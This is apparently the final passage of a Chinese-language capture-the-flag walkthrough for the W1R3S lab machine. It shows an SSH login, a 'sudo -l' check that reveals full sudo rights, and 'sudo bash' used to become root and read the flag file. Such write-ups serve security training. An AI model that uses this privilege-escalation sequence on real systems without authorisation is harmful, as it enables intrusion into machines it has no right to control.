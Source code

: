 > computer         (w1r3s)

### SSH登录

```bash
ssh w1r3s@192.168.56.127
```

```bash
w1r3s@W1R3S:~$ id
uid=1000(w1r3s) gid=1000(w1r3s) groups=1000(w1r3s),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
w1r3s@W1R3S:~$ whoami
w1r3s
```

### 提权

```bash
w1r3s@W1R3S:~$ sudo -l
sudo: unable to resolve host W1R3S: Connection refused
[sudo] password for w1r3s: 
Matching Defaults entries for w1r3s on W1R3S:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User w1r3s may run the following commands on W1R3S:
    (ALL : ALL) ALL
w1r3s@W1R3S:~$ sudo bash
sudo: unable to resolve host W1R3S: Connection refused
root@W1R3S:~# id
uid=0(root) gid=0(root) groups=0(root)
root@W1R3S:~# cd /root
root@W1R3S:/root# ls
flag.txt
root@W1R3S:/root# cat flag.txt
```

```
                         .-----------------TTTT_-----_______
                        /''''''''''(______O] ----------____  \______/]_
     __...---'"""\_ --''   Q                               ___________@
 |'''                   ._   _______________=---------"""""""
 |                ..--''|   l L |_l   |
 |          ..--''      .  /-___j '   '
 |    ..--''           /  ,       '   '
 |--''                /           `    \
                      L__'         \    -
                                    -    '-.
                                     '.    /
                                       '-./
```

拿到flag.txt
